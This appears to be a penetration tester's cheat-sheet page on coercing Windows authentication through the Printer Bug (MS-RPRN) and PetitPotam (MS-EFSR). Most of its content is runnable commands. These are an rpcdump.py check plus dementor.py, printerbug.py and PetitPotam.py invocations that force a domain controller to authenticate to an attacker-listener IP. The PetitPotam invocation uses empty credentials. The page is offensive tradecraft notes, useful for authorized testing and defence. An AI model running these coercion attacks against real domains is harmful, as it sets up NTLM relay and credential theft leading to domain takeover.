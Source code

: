 # Coerce Authentication


## Printer Bug (MS-RPRN)

* [https://twitter.com/DebugPrivilege/status/1410158556540719104](https://twitter.com/DebugPrivilege/status/1410158556540719104)



### Validate

```
$ rpcdump.py MEGACORP/snovvcrash:'Passw0rd!'@192.168.1.11 | grep -A2 MS-RPRN
```



### Trigger


#### dementor.py

* [https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc)

```
$ python dementor.py -d megacorp.local -u snovvcrash -p 'Passw0rd!' 10.10.13.37 DC01.megacorp.local
```


#### printerbug.py

* [https://https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)

```
$ python printerbug.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local 10.10.13.37
```




## PetitPotam (MS-EFSR)

* [https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)

```
$ python3 Petitpotam.py -d '' -u '' -p '' 10.10.13.37 192.168.1.11
```
